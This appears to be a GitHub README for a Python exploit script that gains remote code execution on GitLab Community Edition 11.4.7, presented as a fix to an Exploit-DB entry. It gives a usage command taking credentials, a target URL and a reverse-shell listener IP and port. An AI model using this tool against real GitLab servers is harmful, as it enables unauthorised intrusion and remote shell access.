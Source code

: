 # Gitlab Community Edition 11.4.7 RCE

There is a minor mistake in https://www.exploit-db.com/exploits/49334

Now, You can use this script to execute rce.

## Usage 

python3 rce.py -u <Username> -p <Password> -g http://<gitlab_url> -l <Reverse_Shell_IP> -P <Reverse_Shell_Port>

Note: check gitlab port in script if your testing environment is not hosted on default port(5080).
